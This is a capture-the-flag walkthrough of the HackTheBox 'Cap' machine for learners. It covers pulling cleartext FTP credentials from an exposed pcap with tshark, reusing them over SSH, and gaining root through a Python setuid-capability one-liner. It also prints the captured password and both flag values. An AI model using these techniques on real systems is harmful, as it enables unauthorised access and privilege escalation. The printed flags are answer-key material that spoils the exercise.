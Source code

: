 ```yaml
---
layout: default
title: "HackTheBox — Cap Walkthrough (10.10.10.245)"
---
```


# 🚩 HackTheBox — Cap Walkthrough

Welcome to my detailed walkthrough of the **Cap** machine on HackTheBox.  
This writeup takes you through **enumeration → exploitation → privilege escalation**, with commands, outputs, and commentary, so you don’t just follow along but *understand each step*.

---

## 🕵️ Reconnaissance

The first step is always to see what the target is running.  
Using **Nmap** with scripts and version detection:

```bash
nmap -sC -sV -oN nmap_scan.txt 10.10.10.245
```

**Results:**
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http    Gunicorn (http-server-header: gunicorn)
```

So we have:
- **FTP** (21)  
- **SSH** (22)  
- **HTTP** (80)  

The web service claims to be a **Security Dashboard**. Suspicious and interesting 😎

---

## 🌐 Web Enumeration

Browsing to `http://10.10.10.245/` shows a **Security Dashboard**.  
Digging deeper, I noticed a `/data/` directory containing a `.pcap` capture file.

👉 Whenever you see `.pcap` files exposed on a challenge, it’s basically free treasure. Let’s grab it:

```bash
wget http://10.10.10.245/data/1.pcap -O cap.pcap
```

---

## 📡 PCAP Analysis

I opened the file with `tshark` to look at FTP credentials:

```bash
tshark -r cap.pcap -Y "ftp.request.command == \"USER\" or ftp.request.command == \"PASS\""        -T fields -e ftp.request.command -e ftp.request.arg
```

**Output:**
```
USER nathan
PASS Buck3tH4TF0RM3!
```

🔥 Jackpot — cleartext FTP credentials!  

---

## 🔑 Getting Access

First, I verified the credentials via FTP:

```bash
ftp 10.10.10.245
# login: nathan / Buck3tH4TF0RM3!
```

That worked. Since SSH was also open, I tried the same credentials there:

```bash
ssh nathan@10.10.10.245
```

💡 Success — we’re in as **nathan**!

---

## 🧑‍💻 User Flag

Navigating to Nathan’s home directory:

```bash
cat user.txt
```

**Flag:**  
```
6e89061b7afba09dfa066e55e390c53d
```

---

## ⬆️ Privilege Escalation

Time to go root. Running **linpeas** (or manual checks) revealed something spicy:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

That means **Python3.8 has special Linux capabilities** which allow it to set the user ID. In simple terms: it can make itself root.

### Exploit with a one-liner:
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Boom 💥 — we’re root.

---

## 👑 Root Flag

Now that we have root, let’s grab the final flag:

```bash
cat /root/root.txt
```

**Flag:**  
```
69d7ea1977e866c3e9ba8c5ff6abe8f0
```

---

## 📝 Lessons Learned

- `.pcap` files can leak **sensitive credentials** (FTP cleartext login in this case).  
- **Linux capabilities** can be as dangerous as `SUID` binaries if misconfigured.  
- Always check binaries with `getcap -r / 2>/dev/null`.

---

## 🎯 Final Thoughts

This was a neat box:
- Light recon → web → pcap analysis  
- Quick creds reuse for SSH  
- Clever privilege escalation via Python capabilities  

It’s a perfect beginner-friendly machine that teaches:
- Traffic capture analysis
- Credential harvesting
- Misconfigured binary exploitation

Happy hacking! ⚡
